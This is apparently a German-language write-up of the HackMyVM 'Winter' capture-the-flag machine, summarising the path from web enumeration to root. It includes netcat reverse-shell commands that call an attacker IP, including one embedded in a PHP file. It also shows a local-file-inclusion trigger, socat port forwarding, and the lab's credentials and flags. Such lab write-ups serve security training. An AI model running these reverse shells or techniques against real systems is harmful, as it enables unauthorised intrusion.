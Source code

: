 # Winter - HackMyVM (Medium)
 
![Winter.png](Winter.png)

## Übersicht

*   **VM:** Winter
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Winter)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 8. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Winter_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Winter"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), auf dem eine `/robots.txt` eine Wortliste und einen Hinweis auf `fileinfo.txt` enthielt. `fileinfo.txt` wiederum verwies auf `winter` als Domainnamen. Mittels `wfuzz` wurden die Subdomains `manager.winter` und `cmd.winter` entdeckt. Auf `cmd.winter/shellcity.php` wurde eine RCE-Schwachstelle über den GET-Parameter `run` gefunden, die eine Reverse Shell als `www-data` ermöglichte. Als `www-data` wurden MariaDB-Credentials (`root:idkpass`) aus `login.php` (Hauptdomain) extrahiert. In der Datenbank `winter` wurde der Benutzer `ben` mit Passwort `benni` gefunden. Die User-Flag wurde als Benutzer `catchme` (dessen Credentials im Log nicht explizit gefunden wurden, aber `sudo`-Rechte hatte) in `/home/catchme/user.txt` gelesen. Ein interner Dienst auf `localhost:1336` wurde mittels `socat` auf Port 1337 weitergeleitet. Auf diesem Dienst wurde `snowman.php` gefunden. Der Quellcode von `snowman.php` (gelesen via `sudo -u catchme hexdump ...`) offenbarte eine LFI-Schwachstelle im GET-Parameter `exec`. Durch Hochladen einer PHP-Reverse-Shell und Auslösen der LFI (mit einem POST-Request an `snowman.php?exec=[path_to_shell]`) wurde eine Root-Shell erlangt, da der Dienst als Root lief.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `curl`
*   `nikto`
*   `gobuster`
*   `wfuzz`
*   `vi`
*   `nc` (netcat)
*   `python3` (für Shell-Stabilisierung)
*   `stty`
*   `cat`
*   `ss`
*   `sudo`
*   `ls`
*   `file` (impliziert)
*   `crontab` (versucht)
*   `printenv`
*   `mysql` (MariaDB Client)
*   `socat`
*   `hexdump`
*   `CyberChef` (impliziert für Hexdump-Dekodierung)
*   `ssh` (versucht)
*   `cp`
*   `Burp Suite` (impliziert für POST-Request an `snowman.php`)
*   Standard Linux-Befehle (`id`, `pwd`, `cd`, `echo`, `chmod`, `touch`, `export`, `reset`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Winter" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (Hauptdomain & Subdomains):**
    *   IP-Findung mit `arp-scan` (`192.168.2.116`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH) und 80 (HTTP - Apache 2.4.38 "catchme").
    *   `gobuster` auf Port 80 fand u.a. `login.php`, `signup.php`, `robots.txt`, `fileinfo.txt`.
    *   `/robots.txt` enthielt eine Wortliste und Hinweise. `/fileinfo.txt` enthielt "winter is my domain name!".
    *   Eintrag von `winter`, `manager.winter`, `cmd.winter` in `/etc/hosts`.
    *   `wfuzz` zur Subdomain-Enumeration fand `manager.winter` und `cmd.winter`.
    *   `gobuster` auf `manager.winter` zeigte eine ähnliche Struktur wie die Hauptdomain.
    *   `gobuster` auf `cmd.winter` fand `shellcity.php`.

2.  **Initial Access (RCE via Webshell zu `www-data`):**
    *   `shellcity.php` auf `cmd.winter` war eine Webshell, die Befehle über den GET-Parameter `run` entgegennahm (Parameter gefunden mit `wfuzz`).
    *   Ausführung von `http://cmd.winter/shellcity.php?run=id` bestätigte RCE als `www-data`.
    *   Erlangung einer interaktiven Reverse Shell als `www-data` mittels `nc -e /bin/bash [Angreifer-IP] 9001` über die Webshell.

3.  **Privilege Escalation (Enumeration & DB Credentials):**
    *   Als `www-data`: Quellcode von `shellcity.php` und `login.php` (Hauptdomain) gelesen.
    *   `login.php` enthielt MariaDB-Credentials: `root:idkpass` für Datenbank `winter`.
    *   `ss -tulpe` zeigte einen Dienst auf `127.0.0.1:1336`. `sudo -l` für `www-data` zeigte die Berechtigung `(catchme) NOPASSWD: /usr/bin/hexdump`.
    *   Login in MariaDB als `root:idkpass`. Die Tabelle `winter.users` enthielt Klartext-Credentials, u.a. `ben:benni`.

4.  **Privilege Escalation (Port Forwarding & LFI/RCE zu `root`):**
    *   Port Forwarding mit `socat`: `socat tcp-listen:1337,reuseaddr,fork tcp:localhost:1336 &` (als `www-data`).
    *   `gobuster` auf den weitergeleiteten Port (`http://192.168.2.116:1337`) fand `snowman.php`.
    *   Quellcode von `/opt/customer/snowman.php` (Pfad aus Kontext angenommen) wurde mittels `sudo -u catchme /usr/bin/hexdump -C /opt/customer/snowman.php` gelesen und mit CyberChef dekodiert.
    *   `snowman.php` enthielt eine LFI im GET-Parameter `exec` (`include($_GET['exec'])`) und eine RCE-Logik (`system($_POST['name'])`), die nur bei gesetztem `$_POST['sub']` getriggert wurde.
    *   Eine PHP-Reverse-Shell (`r.php` mit `system("/usr/bin/nc [Angreifer-IP] 2234 -e /bin/bash");`) wurde in `/var/www/html/upload/` platziert.
    *   Auslösen der LFI/RCE durch einen POST-Request (z.B. via Burp Suite oder `curl`) an `http://192.168.2.116:1337/snowman.php?exec=/var/www/html/upload/r.php` mit dem Body `sub=Send`.
    *   Da der Dienst auf Port 1336/1337 als `root` lief, wurde eine Root-Shell auf dem Listener des Angreifers (Port 2234) etabliert.
    *   User-Flag (für `catchme`) `HMVlocalhost` und Root-Flag `HMV_127.0.0.1` wurden gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Informationslecks in `robots.txt` und `fileinfo.txt`:** Enthüllten Wortlisten und Domainnamen.
*   **Remote Code Execution (RCE) via Webshell:** Eine PHP-Seite (`shellcity.php`) erlaubte direkte Befehlsausführung.
*   **Klartext-Credentials im Quellcode und Datenbank:** Datenbank-Root-Credentials in `login.php`, Benutzer-Credentials in der Datenbank.
*   **Unsichere `sudo`-Konfiguration (`hexdump`):** Erlaubte das Auslesen von Dateien als anderer Benutzer.
*   **Local File Inclusion (LFI) in internem Dienst:** Ein als Root laufender Dienst war anfällig für LFI, was zur RCE führte.
*   **Port Forwarding (socat):** Ermöglichte den Zugriff auf einen nur lokal lauschenden, verwundbaren Dienst.
*   **Kombination von POST-Bedingung und GET-LFI:** Spezifische Ausnutzung der `snowman.php`-Logik.

## Flags

*   **User Flag (`/home/catchme/user.txt`):** `HMVlocalhost`
*   **Root Flag (`/root/root.txt`):** `HMV_127.0.0.1`

## Tags

`HackMyVM`, `Winter`, `Medium`, `robots.txt`, `Subdomain Enumeration`, `RCE`, `Webshell`, `sudo Exploitation`, `hexdump`, `MariaDB`, `Klartext Passwörter`, `socat`, `Port Forwarding`, `LFI`, `Privilege Escalation`, `Linux`, `Web`
